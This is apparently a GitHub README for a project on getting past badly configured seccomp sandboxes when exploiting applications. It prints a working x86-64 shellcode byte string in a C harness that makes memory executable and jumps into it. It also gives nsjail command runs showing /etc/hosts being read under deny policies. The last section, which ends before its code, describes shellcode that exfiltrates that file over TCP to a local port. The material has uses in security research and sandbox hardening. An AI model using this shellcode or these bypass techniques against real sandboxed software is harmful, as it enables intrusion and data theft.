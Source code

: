 # seccomp-bypass
seccomp is used by applications to restrict system calls it can make, thus sandboxing it. Its goal is to limit the application to only the facilities it needs to perform its job and nothing more.

The goal here is to bypass these seccomp restrictions when exploiting applications. You need shellcode that will carry out its purpose while still adhering to the application's seccomp filter. So if the filter specifies a denial of `read` and `write`, then valid shellcode may use any system call but those.

**Bypasses are possible not because seccomp is flawed, but because sometimes seccomp filters are inappropriately configured. Just like an exploit takes advantage of programming mistakes, these bypasses take advantage of configuration mistakes.**

# Premise
A typical exploit scenario is that you have a vulnerable application into which you can inject shell code. If it's sandboxed, you need to tailor the shellcode to include only the permitted system calls.

The code below is a generated application, contrived purely to run test shellcode from `src/`. The output is a test program that we run to confirm the shellcode's viability when injected into a foreign application.

&gt;: ./gen-shellcode.sh src/read-with-mmap.s
```c
#include <stdint.h>
#include <sys/mman.h>

char shellcode[] = "\x66\x41\xbb\x74\x73\x41\x53\x49\xbb\x2f\x65\x74\x63\x2f\x68"
                   "\x6f\x73\x41\x53\x48\x8d\x3c\x24\x48\x31\xf6\x04\x02\x0f\x05"
                   "\x48\x31\xff\x48\x31\xf6\x66\xbe\xff\xff\x48\x31\xd2\x80\xc2"
                   "\x01\x49\x89\xc0\x4d\x31\xc9\x4d\x31\xd2\x41\x80\xc2\x01\x48"
                   "\x31\xc0\xb0\x09\x0f\x05\x48\x31\xff\xfe\xc2\x48\x89\xc6\x48"
                   "\x31\xd2\x66\xba\xff\xff\x48\x31\xc0\xfe\xc0\x0f\x05\x48\x31"
                   "\xff\xb2\x03\x48\x31\xc0\xb0\x3c\x0f\x05";

int main(){
  mprotect((void *)((uint64_t)shellcode & ~4095), 4096, PROT_READ|PROT_EXEC);
  (*(void(*)()) shellcode)();
  return 0;
}
```
This program is a test harness for the shellcode that'll be injected into the vulnerable application. It's this shellcode that is intended to leverage only the system calls permitted by the vulnerable application's seccomp filter.

Compile it with: `$gcc -static read-with-mmap.c -o read-with-mmap`

# Examples
Below are examples of shellcodes that perform each section's goal within certain system call constraints. Each goal has one or more shellcodes using a combination of system call combinations to achieve it.

*To follow along, use [Google's nsjail](https://github.com/google/nsjail) to run programs with a specific seccomp policy.*

## Read a file from the filesystem
Each of these examples reads the file `/etc/hosts` from the target system using a variety of system calls.
### read-with-mmap.s
#### syscalls: `open`,`write`, `mmap`,`exit`
This example is based on shellcode from `src/read-with-mmap.s`. You can see the line `127.0.0.1	localhost` present in the output below, which is a sign the seccomp filter is bypassed successfully.

Try replacing the `read` in the DENY clause with `open`,`exit`,`write`, or `mmap`. Doing so should cause the command to fail because the shellcode in this example uses all four of those calls.

Generate the program:
```bash
>: f=`tempfile`; ./gen-shellcode.sh src/read-with-mmap.s > $f.c; gcc -static $f.c -o $f
```

Now run it with seccomp filters in place with `nsjail`:
```bash
>: ~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { DENY { read } } USE a DEFAULT ALLOW' -- $f
[2017-05-12T16:48:04-0700] Mode: STANDALONE_ONCE
...
[2017-05-12T16:48:04-0700] Executing '/tmp/fileVRncd7' for '[STANDALONE_MODE]'
127.0.0.1	localhost
```

Below shows a default DENY policy. You'll need to allow a few more system calls to use it in this example. This is a wider set of calls than what is required of an application in the wild, which does "start > set seccomp filter > fork", because in this example case we have to interact with the OS to set up the process space first (doing an `execve` and not just a `fork`.

```bash
>: ~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { ALLOW { open, write, mmap, execve, newuname, brk, arch_prctl, readlink, access, mprotect, exit } } USE a DEFAULT DENY' -- $f
```

### read-with-sendfile.s
#### syscalls: `open`, `sendfile`,`exit`
This example is based on shellcode from `src/read-with-sendfile.s`. We can get away with reading a file with just these two system calls, explicitly denying the typical `read` and `mmap` calls.

Blacklist policy (default allow):
```bash
>: f=`tempfile`; ./gen-shellcode.sh src/read-with-sendfile.s > $f.c; gcc -static $f.c -o $f
>: ~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { DENY { read,write,mmap } } USE a DEFAULT ALLOW' -- $f
[2017-05-15T16:03:04-0700] Mode: STANDALONE_ONCE
...
[2017-05-15T16:03:04-0700] Executing '/tmp/fileCNqBB4' for '[STANDALONE_MODE]'
127.0.0.1	localhost
```

Whitelist policy (default deny):
```bash
>: ~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { ALLOW { open, sendfile64, execve, newuname, brk, arch_prctl, readlink, access, mprotect, exit } } USE a DEFAULT DENY' -- $f
```

## Remotely read a file from the filesystem
Each of these examples exfiltrates the file `/etc/hosts` from the target system using a variety of system calls.

### exfil-with-sendfile.s
#### syscalls: `open`, `sendfile`, `socket`, `connect`,`exit`
This example is based on shellcode from `exfil-with-sendfile.s`. This will read `/etc/hosts` on the target and dump it to 127.0.0.1 TCP/8000. This currently only supports ipv4.
